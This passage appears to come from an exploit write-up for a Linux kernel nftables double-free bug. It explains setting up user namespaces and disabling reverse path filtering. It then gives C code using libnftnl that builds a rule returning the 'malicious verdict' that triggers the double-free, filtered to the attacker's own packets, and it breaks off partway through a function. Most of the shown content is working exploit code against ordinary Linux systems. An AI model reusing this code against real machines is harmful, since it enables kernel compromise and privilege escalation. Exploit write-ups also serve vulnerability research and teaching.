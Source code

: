 ```c
 } while (0);
 ```

## Workflow - Setup

### Namespaces

Before we can exploit the vuln, we need to setup user namespaces so we can set up our own nft rules, and disable RPF (anti IP spoofing thing, which prevents us from traversing a specific IPv4 codepath to avoid kernel panics). The code for these procedures are straightforward but a lot of code, so I will not show it here.

```c
void setup_env()
{
    uid_t uid = getuid();
    gid_t gid = getgid();

	do_unshare();
	configure_uid_map(uid, gid);
	configure_interfaces();
	configure_nftables();
    clean_files();
}
```

### Nft rule triggering the bug

Before we can trigger the vuln, we need to set up an nft rule which returns the malicious verdict. To avoid false positives, we need to specify a unique filter so only our exploits' packet triggers the double-free. If we did not apply the filter, every IPv4 packet in the system would get double-freed. Our filter is arbitrary, and I chose for filtering for packets which have IPv4 header protocol == 69 && first 4 bytes "\x41\x41\x41\x41". I have not experienced false positives with this. 

```c
static void add_set_verdict(struct nftnl_rule *r, uint32_t val)
{
	struct nftnl_expr *e;

	e = nftnl_expr_alloc("immediate");
	if (e == NULL) {
		perror("expr immediate");
		exit(EXIT_FAILURE);
	}

	nftnl_expr_set_u32(e, NFTNL_EXPR_IMM_DREG, NFT_REG_VERDICT);
	nftnl_expr_set_u32(e, NFTNL_EXPR_IMM_VERDICT, val); // Set the verdict to 0x69

	nftnl_rule_add_expr(r, e);
}

static struct nftnl_rule *alloc_rule(unsigned char family, const char *table, const char *chain, unsigned char proto)
{
	struct nftnl_rule *r = NULL;

	r = nftnl_rule_alloc();
	if (r == NULL) {
		perror("rule alloc");
		exit(EXIT_FAILURE);
	}

	nftnl_rule_set_u32(r, NFTNL_RULE_FAMILY, family);
	nftnl_rule_set(r, NFTNL_RULE_TABLE, table);
```